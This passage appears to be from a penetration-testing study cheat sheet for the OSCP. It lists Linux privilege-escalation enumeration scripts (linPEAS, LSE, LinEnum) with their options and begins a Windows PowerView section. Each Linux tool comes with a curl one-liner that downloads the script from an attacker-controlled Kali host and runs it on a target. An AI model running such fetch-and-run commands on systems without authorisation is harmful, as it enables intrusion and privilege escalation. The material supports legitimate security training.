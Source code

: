 ### 7.1. [linPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)

|   |   |
|---|---|
|Prepare Kali|`curl -sLo /var/www/html/linpeas.sh https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh`|
|Download and run on target|`curl -O http://$KALI/linpeas.sh && chmod +x linpeas.sh && ./linpeas.sh`|
|All checks - deeper system enumeration, but it takes longer to complete|`./linpeas.sh -a`|
|Password - Pass a password that will be used with sudo -l and bruteforcing other users|`./linpeas.sh -P`|

### 7.2. [LSE](https://github.com/diego-treitos/linux-smart-enumeration)

|   |   |
|---|---|
|Prepare Kali|`curl -L -o /var/www/html/lse.sh https://github.com/diego-treitos/linux-smart-enumeration/releases/latest/download/lse.sh`|
|Download and run on target|`curl -O http://$KALI/lse.sh && chmod +x lse.sh && ./lse.sh`|
|Shows interesting information that should help you to privesc|`./lse.sh -l1`|
|Dump all the information it gathers about the system|`./lse.sh -l2`|

### 7.3. [LinEnum](https://github.com/rebootuser/LinEnum)

|   |   |
|---|---|
|Prepare Kali|`curl -Lo /var/www/html/LinEnum.sh https://github.com/rebootuser/LinEnum/raw/master/LinEnum.sh`|
|Download and run on target|`curl -O http://$KALI/LinEnum.sh && chmod +x LinEnum.sh && ./LinEnum.sh`|

```sh
./LinEnum.sh -s -k keyword -r report -e /tmp/ -t
```

Options:
- `-k` Enter keyword
- `-e` Enter export location
- `-t` Include thorough (lengthy) tests
- `-s` Supply current user password to check sudo perms (INSECURE)
- `-r` Enter report name
- `-h` Displays this help text

## 8. Windows privilege escalation

### 8.1. [PowerView](https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon)

Used in: [svcorp](https://github.com/joetanx/oscp/blob/main/pwk-lab/svcorp.md#133-powerview), [XOR-APP59](https://github.com/joetanx/oscp/blob/main/pwk-lab/xor.md#135-powerview), [PWK AD Exercise II](https://github.com/joetanx/oscp/blob/main/pwk-exercises/ad2.md)
